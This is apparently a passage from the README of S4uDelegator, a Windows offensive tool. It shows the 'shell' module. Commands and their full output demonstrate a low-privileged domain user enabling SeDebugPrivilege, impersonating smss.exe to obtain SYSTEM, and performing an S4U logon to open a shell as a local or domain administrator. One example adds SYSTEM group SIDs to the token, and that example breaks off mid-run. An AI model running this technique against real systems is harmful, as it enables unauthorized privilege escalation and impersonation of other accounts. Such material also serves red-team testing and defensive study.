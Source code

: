 
### shell Module

This command is to get interactive shell with S4U logon:

```
C:\dev>whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104

C:\dev>S4uDelegator.exe -m shell -u admin

[>] Target account to S4U:
    |-> Account Name        : CL01\admin
    |-> Account Sid         : S-1-5-21-2659926013-4203293582-4033841475-500
    |-> Account Type        : SidTypeUser
    |-> User Principal Name : (NULL)
[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
[+] SeAssignPrimaryTokenPrivilege is enabled successfully.
[>] Trying to impersonate thread token.
    |-> Current Thread ID : 7140
[+] Impersonation is successful.
[>] Trying to MSV S4U logon.
[+] S4U logon is successful.
[>] Trying to create a token assigned process.

Microsoft Windows [Version 10.0.18362.175]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\dev>whoami /user

USER INFORMATION
----------------

User Name  SID
========== =============================================
cl01\admin S-1-5-21-2659926013-4203293582-4033841475-500
```

If you want to add token groups, you can specify them comma separated SID values with `-e` option as follows:

```
C:\Tools>whoami
contoso\david

C:\Tools>S4uDelegator.exe -m shell -d contoso -u administrator -e s-1-5-18,S-1-5-19

[>] Target account to S4U:
    |-> Account Name        : CONTOSO\administrator
    |-> Account Sid         : S-1-5-21-3654360273-254804765-2004310818-500
    |-> Account Type        : SidTypeUser
    |-> User Principal Name : administrator@contoso.local
[>] Group SID to add:
    |-> [VALID] NT AUTHORITY\SYSTEM (SID : S-1-5-18) will be added.
    |-> [VALID] NT AUTHORITY\LOCAL SERVICE (SID : S-1-5-19) will be added.
[>] Trying to get SYSTEM.
[+] SeDebugPrivilege is enabled successfully.
[>] Trying to impersonate as smss.exe.
```